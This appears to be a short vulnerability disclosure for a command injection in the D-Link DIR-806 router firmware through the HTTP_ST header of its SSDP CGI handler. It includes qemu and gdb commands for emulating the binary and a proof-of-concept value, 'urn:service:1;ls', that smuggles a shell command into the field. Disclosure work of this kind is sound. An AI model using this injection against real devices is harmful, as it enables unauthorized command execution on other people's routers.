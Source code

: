 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection(parameter of HTTP_ST)
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:

qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls", The results are shown in the figure below: 
![image-1](../img/1.jpg)

No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute
